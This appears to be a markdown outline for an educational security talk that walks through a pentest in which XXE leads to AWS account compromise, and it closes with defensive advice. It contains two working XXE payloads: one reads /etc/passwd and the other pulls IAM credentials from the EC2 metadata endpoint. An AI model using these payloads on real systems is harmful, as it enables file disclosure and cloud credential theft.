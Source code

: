 # XXE and AWS Compromise

## Outcomes
* People know about XXE
	* And maybe disable XML entity parsing
* People know about AWS Metadata endpoint

## Intro
* Ask who knows about
	* XML Entities
	* AWS Metadata endpoint

## Background
* There's an EC2 instance parsing XML
* It is getting pentested


* Pentester finds file upload
	* Notices lack of virus detection
	* _pentest finding screencap_ -- MEDI: No virus scanning

* Pentester notices XML files getting parsed
	* Tries to steal `/etc/passwd` with XXE
	* _pentest finding screencap_ -- HIGH: LFI with XXE

```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

* Pentester notices server is running in EC2
	* Uses XXE to get role --> `iam/info` 
	* Uses XXE to get creds --> `iam/security-credentials/<role-name>`
	* _pentest finding screencap_ -- CRIT: AWS Account compromise with XXE

```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/iam-role" >]><foo>&xxe;</foo>
```
<!-- TODO record demo -->
<!-- TODO pentest screencaps -->

## Summary
* If you're parsing XML ![stop it](https://media.giphy.com/media/l4Ki2obCyAQS5WhFe/giphy.gif)\
* Also limit access from your EC2 instances
	* Principle of least privilege

## Notes
* Most of the content from this [Netflix blog post](https://medium.com/netflix-techblog/netflix-information-security-preventing-credential-compromise-in-aws-41b112c15179)